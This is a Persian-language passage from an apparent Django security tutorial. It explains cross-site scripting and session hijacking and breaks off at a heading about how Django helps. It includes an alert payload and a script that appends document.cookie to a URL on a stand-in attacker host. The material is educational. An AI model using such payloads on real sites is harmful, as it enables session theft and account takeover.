 ```js
<script>alert("pwned")</script>
```


<span dir="rtl">جای تعجب نیست که مرورگر یک جعبه هشدار با پیام شوم - pwned را نشان می دهد. </span>
<pre>
این حمله در مرورگرهای فعلی مانند آخرین کروم با شکست مواجه می‌شود، 
که پیام خطای زیر را در کنسول نشان می‌دهد: از اجرای اسکریپت جاوا اسکریپت خودداری کرد. 
. کد منبع اسکریپت در درخواست یافت شد.
</pre>

اگر نمی‌دانید که یک پیام هشدار ساده چه آسیبی می‌تواند داشته باشد، به یاد داشته باشید که
هر کد جاوا اسکریپت را می‌توان به همان شیوه اجرا کرد. در بدترین حالت، کوکی های
کاربر را می توان با وارد کردن عبارت جستجوی زیر به سایتی که توسط مهاجم کنترل می شود ارسال کرد:

```js
<script>
  var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);
</script>
```

پس از ارسال کوکی‌های شما، مهاجم ممکن است بتواند حمله جدی‌تری انجام دهد.

### چرا کوکی های شما ارزشمند است؟

شاید ارزش درک این را داشته باشد که چرا کوکی ها هدف چندین حمله هستند.
به زبان ساده، دسترسی به کوکی‌ها به مهاجمان اجازه می‌دهد که شما را جعل کنند و
حتی کنترل حساب وب شما را در دست بگیرند.

<span dir="rtl">برای درک دقیق این موضوع، باید مفهوم **sessions** را درک کنید.HTTP بدون تابعیت است </span>
<span dir="rtl">این بدان معناست که هر درخواست HTTP که سرور دریافت می‌کند مستقل است و به درخواست‌هایی که قبل از آن ارائه شده‌اند مربوط نمی‌شود. </span>
جنگو چه یک کاربر ناشناس یا یک کاربر تأیید شده باشد، با مدیریت جلسات، فعالیت های آنها را برای مدت زمان مشخصی پیگیری می کند.

یک جلسه شامل شناسه جلسه در انتهای کلاینت، یعنی مرورگر و یک شی دیکشنری مانند است که در انتهای سرور ذخیره می شود.
شناسه جلسه یک رشته تصادفی 32 نویسه ای است که به عنوان یک کوکی در مرورگر ذخیره می شود. هر بار که یک کاربر از
یک وب سایت درخواستی می کند، تمام کوکی های او، از جمله این شناسه جلسه، همراه با درخواست ارسال می شود.

<span dir="rtl">در انتهای سرور، جنگو یک ذخیره‌سازی جلسه دارد که این شناسه جلسه را به داده‌های جلسه نگاشت می‌کند. به 
طور پیش فرض، جنگو داده های جلسه را در جدول پایگاه داده **django_session** ذخیره می کند. </span>

هنگامی که کاربر با موفقیت وارد سیستم می شود، جلسه متوجه می شود که احراز هویت موفقیت آمیز بوده و
کاربر را پیگیری می کند. بنابراین، کوکی به یک تأیید هویت موقت کاربر برای تراکنش‌های بعدی تبدیل می‌شود.
<span dir="rtl">هر کسی که این کوکی را بدست آورد می تواند از این برنامه وب به عنوان آن کاربر استفاده کند که به آن Session Hijacking می گویند. </span>

### جچکو چگونه کمک میکند؟
